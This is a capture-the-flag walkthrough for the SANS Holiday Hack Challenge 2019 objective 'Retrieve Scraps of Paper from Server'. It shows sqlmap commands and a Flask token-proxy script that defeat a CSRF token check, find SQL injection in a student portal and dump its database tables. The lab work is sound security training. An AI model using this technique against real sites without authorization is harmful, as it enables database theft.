 # Retrieve Scraps of Paper from Server
**Terminal Hint**: [Pepper Minstix - Graylog](../hints/h9.md)

## Request
> Gain access to the data on the [Student Portal](https://studentportal.elfu.org/) server and retrieve the paper scraps hosted there.  
> What is the name of Santa's cutting-edge sleigh guidance system?  
> For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix.  
>  
> Krampus:  
> Unfortunately, I managed to lock out my account on the server.  
> Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?  
> I give you permission to hack into it, solving Objective 9 in your badge.  
> And, as long as you're traveling around, be sure to solve any other challenges you happen across.

## Video
<div class="video-wrapper">
<iframe width="560" height="315" src="https://www.youtube.com/embed/Vg9V4NhKbao?start=900" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</div>

## Resources
- [Student Portal](https://studentportal.elfu.org/)
- [OWASP SQL Injection](https://www.owasp.org/index.php/SQL_injection)
- [SQLMAP Tamper Scripts for The Win](https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win)

## Solution
Pepper hints at using blind SQLi to retrieve the scraps from the server but whipping out [sqlmap](http://sqlmap.org) won't do us much good at this point. Both the `apply.php` and `check.php` pages contain a set of custom JavaScript functions that first retrieve a token value from `validator.php`. This value is then added to the form data and submitted to the server as a way to prevent [Cross-site request forgery (CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)). For each request the server will first check the token and only accept the request if the token is valid.

![JavaScript](../img/objectives/o9/o9_1.png)

In other words, unless we tell sqlmap to submit a valid token with each of its requests, chances are the SQLi attempts won't even hit the backend database. Fortunately for us sqlmap has a `--csrf-url` option which allows you to specify a URL from where to retrieve tokens. Unfortunately for us, sqlmap also requires specifying the token field name via the `--csrf-token` option and `validator.php` doesn't set any token field names. It just returns the token value as-is.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url https://studentportal.elfu.org/validator.php --csrf-token=
```

![Token Response](../img/objectives/o9/o9_2.png)
![Sqlmap Fail](../img/objectives/o9/o9_3.png)

The problem can be solved by translating the `validator.php` response data to a format that sqlmap accepts (i.e. contains a token field name in the header or response body). When the below [`token_proxy.py`](../scripts.md#token_proxypy) Python script receives a GET request it grabs a token value from `validator.php` and adds it as the value to a `token` field in both the header and body of its own HTTP response. 

```python
#!/usr/bin/env python3
"""SANS Holiday Hack Challenge 2019 - Retrieve Scraps of Paper from Server."""
import requests
from flask import Flask, Response
app = Flask(__name__)


@app.route("/")
def token():
    """Return a token."""
    url = 'https://studentportal.elfu.org/validator.php'
    token = requests.Session().get(url).text
    # Put the token in the body, input tag, and header.
    resp = Response(
        f'Token:{token}\n'
        '<form>\n'
        f'  <input type="hidden" id="token" name="token" value="{token}"/>\n'
        '</form>\n'
    )
    resp.headers['token'] = token
    return resp


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

Start the Flask proxy app so it's ready to respond to incoming token requests.

```shell
python3 token_proxy.py
```

![Flask Proxy](../img/objectives/o9/o9_5.png)
![Proxy Token Response](../img/objectives/o9/o9_4_both.png)

Now run the earlier sqlmap command again but with the `--csrf-url` parameter set to our proxy listening on 127.0.0.1:5000 and `--csrf-token` set to 'token'. This will allow sqlmap to send valid HTTP requests to the server and execute its SQLi attacks.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token
```

![Sqlmap Success 1](../img/objectives/o9/o9_6.png)
![Sqlmap Success 2](../img/objectives/o9/o9_7.png)

We now know the database type (i.e. MySQL) and that the setup is vulnerable to at least three types of SQL Injection attacks via the `elfmail` GET parameter: boolean-based blind, error-based, and time-based blind. Grab an overview of the available databases.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql --dbs
```

![Sqlmap DBs](../img/objectives/o9/o9_8.png)

`information_schema` is a default MySQL database so request the tables for `elfu`.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql --tables -D elfu
```

![Sqlmap Tables](../img/objectives/o9/o9_9.png)

Out of the three tables in the `elfu` database `krampus` looks like a good candidate so let's dump that.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql -D elfu -T krampus --dump
```

![Sqlmap Dump](../img/objectives/o9/o9_10.png)

Well that looks pretty promising. Download the PNG files from the Student Portal and reassemble them using an image editor.

![Letter](../img/objectives/o9/letter.png)

## Answer
Sleigh guidance system name: `Super Sled-o-matic`

## Response
> Wow! We’ve uncovered quite a nasty plot to destroy the holiday season.  
> We’ve gotta stop whomever is behind it!  
> I managed to find this protected document on one of the compromised machines in our environment.  
> I think our attacker was in the process of exfiltrating it.  
> I’m convinced that it is somehow associated with the plan to destroy the holidays. Can you decrypt it?  
> There are some smart people in the NetWars challenge room who may be able to help us.

